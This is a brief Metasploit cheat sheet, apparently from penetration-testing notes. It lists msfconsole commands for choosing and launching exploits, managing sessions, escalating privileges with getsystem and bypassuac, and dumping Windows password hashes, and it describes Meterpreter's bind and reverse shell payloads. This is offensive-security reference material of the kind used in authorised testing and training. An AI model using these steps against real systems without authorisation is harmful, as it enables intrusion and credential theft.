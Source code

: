 ```shell
# Start metasploit
msfconsole

# Search for module
search <KEYWORD>[, <KEYWORD>, …]

# show exploits
show exploits

use <EXPLOIT>
info
show options
set <KEY> <VALUE>
show payloads
set payload <PAYLOAD>

exploit

background
sessions -l
sessions -i <SESSION_ID>

sysinfo
ifconfig
route
getuid
getsystem  # doesn't work on modern Windows
bypassuac  # maybe works on modern Windows ; then rerun getsystem

use post/windows/gather/hashdump
```

#### Meterpreter 🦾

- power shell payload for many platforms that can be launched via Metasploit
  - `bind_tcp`: connect payload
  - `reverse_tcp`: reverse callback payload